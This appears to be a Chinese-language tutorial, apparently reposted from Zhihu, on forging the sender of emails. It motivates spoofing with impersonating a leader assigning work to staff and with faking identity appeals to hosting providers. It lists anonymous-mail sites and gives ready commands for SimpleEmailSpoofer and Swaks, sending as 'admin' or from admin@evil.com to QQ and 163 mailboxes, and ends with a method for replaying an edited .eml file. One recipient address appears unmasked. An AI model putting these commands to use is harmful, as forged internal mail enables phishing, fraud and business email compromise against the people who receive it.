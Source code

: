 有什么用  比如一些领导 内部员工  内部交流 安排工作可能是通过邮件安排工作

一些 idc 还有 网站 需要 你发送邮箱进行申诉 确认本人。

https://ihuan.me/mail

http://tool.chacuo.net/mailanonymous

 

WinWebMail(WebEasyMail) v3.7.6.1 企业版

110@110.cn

apt@moonteams.com



**SimpleEmailSpoofer**

这是一个很简单的python脚本，帮助渗透测试人员进行电子邮件伪造。

Github项目地址：[https://github.com/lunarca/SimpleEmailSpoofer](https://link.zhihu.com/?target=https%3A//github.com/lunarca/SimpleEmailSpoofer)

```text
git clone https://github.com/lunarca/SimpleEmailSpoofer.git
cd SimpleEmailSpoofer/
pip install -r requirements.txt
#使用示例
./SimpleEmailSpoofer.py -e [Path to Email file] -t [To address] -f [From address] -n [From name] -j [Email subject]
```

163邮箱测试：

```text
python SimpleEmailSpoofer.py -t a******t@163.com  -n 管理员 -f admin@test.com -j "SimpleEmailSpoofer test"  -e 1.txt
```

![img](https://pic3.zhimg.com/80/v2-49e485e5ccd7b1eb9dd854126631d606_720w.jpg)

QQ邮箱演示：

```text
python SimpleEmailSpoofer.py -t 67*****28@qq.com  -n 管理员 -f admin@test.com -j "SimpleEmailSpoofer test"  -e 1.txt  -s 192.168.99.240 -p 25 --user test --pass abc123!
```

![img](https://pic2.zhimg.com/80/v2-a6d5ef5e894de620f623b0a74cd99b01_720w.jpg)



![img](https://pic4.zhimg.com/80/v2-bafd6337887f0b22f0c0cd8a1651cdb3_720w.jpg)

------

**Swaks - SMTP界的瑞士军刀**

Swaks是由John Jetmore编写和维护的一种功能强大，灵活，可脚本化，可向任意目标发送任意内容的邮件的SMTP测试工具。

Swaks下载地址 ：[http://www.jetmore.org/john/code/swaks/](https://link.zhihu.com/?target=http%3A//www.jetmore.org/john/code/swaks/)

```text
#下载文件并解压
wget http://www.jetmore.org/john/code/swaks/files/swaks-20201014.0.tar.gz
tar -zxvf swaks-20190914.0.tar.gz
cd swaks-20190914.0/
#测试邮箱的连通性
./swaks --to  67*****28@qq.com
```

使用示例：

```text
./swaks --to 67*****28@qq.com  --from admin@evil.com  --h-From: '=?GB2312?B?udzA7dSx?= <admin@evil.com>' --ehlo qq.com --body hello --header "Subject: test"
```

![img](https://pic4.zhimg.com/80/v2-9d4bb57495f06e8fe1ff55c16ffe84d7_720w.jpg)

高级用法：

1、首先，在QQ邮箱发送一封测试邮件，导出mail.eml文件

![img](https://pic3.zhimg.com/80/v2-b6e49e615b906f46f25657ae3d9153f2_720w.jpg)

2、删除前面不必要的字段信息，如保留，接收到的邮件头部将会重复这些字段，根据自己的需要构造字段信息。

![img](https://pic1.zhimg.com/80/v2-3cc332e042707170d89a9e91a90e4a38_720w.jpg)

3、使用 --data参数发送邮件，就这样，我们就可以灵活的伪造邮件中的每一个参数。

```text
sudo ./swaks --data mail.eml --to 676707628@qq.com --from admin@test.com
```

